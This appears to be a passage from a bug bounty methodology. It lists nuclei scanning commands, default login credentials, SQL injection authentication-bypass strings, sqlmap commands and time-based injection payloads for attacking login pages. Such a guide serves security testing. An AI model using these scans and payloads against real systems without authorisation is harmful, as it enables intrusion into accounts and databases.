 
B :-

nuclei -l live-subs.txt -t nuclei-templates (Using Cool custom nuclei templates from Coffin repo ):-
https://github.com/coffinxp/nuclei-templates,  https://x.com/coffinxp7


C :-

nuclei -l live-subs.txt -t swagger\Swagger.yaml ( Using the graet custom Swagger UI Vulns tenplate by :- 
coffin :- https://github.com/coffinxp/swagger,  https://x.com/coffinxp7

and if you found swagger ui endpoint chech this cool writeup :- https://medium.com/@adhaamsayed3/found-6-domxss-at-different-programs-hacking-swagger-ui-5767c9d6d024





13 - How i Hunt On Login Pages :-

 

* Try deafault credentials and Authentication Bypass :-

admin admin
demo  demo
test  test


    Authentication Bypass :-


admin' or 1=1 #
' or 1=1 --
' or 1=1 ; #
' or 1=1 ; --



    Response Manipulation.





* Identify login page Technologies for posibble CVEs.


* look for SQli bugs at username/password parameters :-


    sqlmap -u https://testestestest.com/login.php --dbs --forms --crawl=2


    sqlmap -r request.txt -p login --level 5 --risk 3 --dbs --batch


    sqlmap -u "https://testestestest.com/submit.php" --data="search=hello&value=submit" --batch




admin'))%20OR%20335=(SELECT%20335%20FROM%20PG_SLEEP(15))--
admin%20waitfor%20delay%20'0:0:15'%20--%20
-6513%27%20OR%20%28SELECT%20INSTR2%28NULL%2CNULL%29%20FROM%20DUAL%29%20IS%20NULL--%20SpSw
